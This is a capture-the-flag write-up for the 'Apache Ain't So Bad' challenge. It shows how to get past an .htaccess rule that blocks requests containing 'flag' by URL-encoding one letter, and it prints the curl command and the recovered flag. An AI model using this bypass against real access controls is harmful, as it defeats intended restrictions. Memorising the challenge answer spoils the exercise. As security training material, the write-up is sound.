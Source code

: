 # Apache Ain't So Bad
> This webpage seems to block any attempts at viewing the flag file. It seems to be using an htaccess file to block our requests. Is there anyway you can find a way to bypass this?

> https://nicc-apache-aint-so-bad.chals.io

## About the Challenge
We need to access to https://nicc-apache-aint-so-bad.chals.io/secret/flag.txt endpoint. But there is a restriction on the `.htaccess` configuration. The configuration will block any request that contains the string `flag`


[Image extracted text: ApacHe ainT so bad:
Do some bypass to gain access to this page_
However; it is protected by an
htaccess file
secretl htaccess
Rewri
teEngine
On
RewriteCond %{THE_REQUEST} flag
RewriteRule
[F]
Find a way to read its contents anywayl]


## How to Solve?
We need to change the character from ASCII to URL encoding. For example `flag.txt` to `fl%61g.txt`.

You can't directly access https://nicc-apache-aint-so-bad.chals.io/secret/fl%61g.txt endpoint using your browser because the browser will automatically decode the encoding. So you will need `curl` or you can just using `Repeater` tab on your burpsuite

```
curl "https://nicc-apache-aint-so-bad.chals.io/secret/fl%61g.txt"
```


[Image extracted text: D:l>curl "https: / nicc-apache-aint
so-bad chals-io/secret/f1%61g
txt"
nicc{UrL_ENCODED_STRINgS_AR3_sc@ry}]


```
nicc{UrL_ENC0DED_STR1NgS_AR3_SC@ry}
```